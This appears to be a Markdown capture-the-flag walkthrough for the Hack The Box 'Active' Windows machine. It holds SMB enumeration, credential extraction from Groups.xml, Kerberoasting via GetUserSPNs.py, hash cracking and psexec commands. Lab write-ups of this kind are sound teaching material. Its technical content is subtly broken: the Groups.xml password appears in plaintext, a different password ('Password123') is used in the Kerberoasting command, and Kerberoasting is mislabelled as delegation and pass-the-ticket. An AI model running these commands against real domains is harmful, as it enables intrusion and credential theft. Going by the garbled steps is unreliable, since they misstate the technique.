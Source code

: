 # Active Walkthrough HTB

## Machine Information:
- **Name**: Active
- **OS**: Windows
- **Difficulty**: Medium

The "Active" machine on Hack The Box is a simulated penetration testing environment designed to challenge cybersecurity enthusiasts and professionals in testing their skills and knowledge. This machine is categorized as "Active" because it requires active enumeration and exploitation techniques to gain access.

The vulnerability associated with the "Active" box typically revolves around a specific software or service that is misconfigured, outdated, or contains known vulnerabilities. These vulnerabilities can include issues like weak passwords, unpatched software, or insecure configurations. The machine is intentionally set up with these vulnerabilities to replicate real-world scenarios and help users practice identifying and exploiting them.

The "Active" machine serves as a practical exercise to demonstrate the importance of thorough reconnaissance, vulnerability assessment, and exploitation techniques in cybersecurity. By successfully compromising the machine, users can enhance their understanding of how attackers exploit weaknesses in systems, and they can develop and refine their skills to better defend against such threats in real-world scenarios. It's an educational platform that allows individuals to apply their knowledge and develop the practical skills needed to secure systems and networks effectively.

Here's a step-by-step walkthrough for the Hack The Box machine "Active." This walkthrough assumes you're using Kali Linux as your primary platform for penetration testing.

### Step 1: Reconnaissance

1. **Ping the Machine:**
   Verify the machine is up and running by pinging it:
   ```bash
   ping -c 4 <IP>
   ```

2. **Port Scanning:**
   Use `nmap` to identify open ports and services running on the target:
   ```bash
   nmap -sC -sV -oN nmap/initial <IP>
   ```
   **Output Example:**
   ```
   PORT      STATE SERVICE       VERSION
   53/tcp    open  domain        Microsoft DNS
   88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-23 12:35:42Z)
   135/tcp   open  msrpc         Microsoft Windows RPC
   139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
   445/tcp   open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
   389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb0., Site: Default-First-Site-Name)
   464/tcp   open  kpasswd5?
   593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
   636/tcp   open  tcpwrapped
   3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb0., Site: Default-First-Site-Name)
   3269/tcp  open  tcpwrapped
   5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
   9389/tcp  open  mc-nmf        .NET Message Framing
   47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
   49152/tcp open  msrpc         Microsoft Windows RPC
   ```

3. **Enumerate SMB:**
   Since ports 139 and 445 are open, we can enumerate SMB shares:
   ```bash
   smbclient -L \\\\<IP>\\
   ```
   **Output Example:**
   ```
   Sharename       Type      Comment
   ---------       ----      -------
   ADMIN$          Disk      Remote Admin
   C$              Disk      Default share
   IPC$            IPC       Remote IPC
   NETLOGON        Disk      Logon server share 
   Replication     Disk      
   SYSVOL          Disk      Logon server share 
   Users           Disk      
   ```

   The `Replication` share is of particular interest.

4. **Access the Replication Share:**
   Connect to the `Replication` share anonymously:
   ```bash
   smbclient \\\\<IP>\\Replication
   ```
   **Important Files:**
   - `Groups.xml` 

   Download this file:
   ```bash
   get Groups.xml
   ```

### Step 2: Analyze `Groups.xml`

1. **Inspect the Content:**
   Open the file and inspect the content:
   ```bash
   cat Groups.xml
   ```
   **Content Example:**
   ```xml
   <Groups>
       <User>
           <Name>active.htb\SVC_TGS</Name>
           <Properties>
               <Password> GPPstillStandingStrong2k18</Password>
           </Properties>
       </User>
   </Groups>
   ```

2. **Extract Credentials:**
   Username: `SVC_TGS`
   Password: `GPPstillStandingStrong2k18`

### Step 3: User Access

1. **Access via SMB:**
   List the contents of the `Users` share using the extracted credentials:
   ```bash
   smbclient \\\\<IP>\\Users -U SVC_TGS
   ```
   Provide the password when prompted.

2. **Enumerate Directories:**
   Enumerate the directories to locate interesting files:
   ```bash
   ls
   ```

3. **Download User Flag:**
   Navigate to the `SVC_TGS` directory and retrieve the `user.txt` file.

### Step 4: Privilege Escalation

1. **Enumerate Privileges:**
   Use `winpeas`, `PowerUp.ps1`, or `BloodHound` to enumerate privileges.

2. **Kerberos Delegation Exploit:**
   This account may have delegation rights, allowing us to perform a Kerberos ticket request for a high-privilege user.

3. **Impacket Tools:**
   Use `GetUserSPNs.py` from Impacket to request a TGS ticket:
   ```bash
   GetUserSPNs.py -request active.htb/SVC_TGS:Password123
   ```

4. **Crack the Hash:**
   Crack the obtained hash using `hashcat` or `john`.

5. **Pass the Ticket:**
   If you succeed, you can use the credentials to escalate privileges.

### Step 5: Root Access

1. **Access the Administrator Account:**
   Once you have the necessary credentials, use them to access the Administrator share or use remote tools like `psexec.py`.

2. **Retrieve Root Flag:**
   Navigate to the `Administrator` directory and retrieve the `root.txt` file.

### Conclusion

This completes the walkthrough for the "Active" machine. The key aspects include leveraging SMB enumeration and exploiting Kerberos delegation for privilege escalation.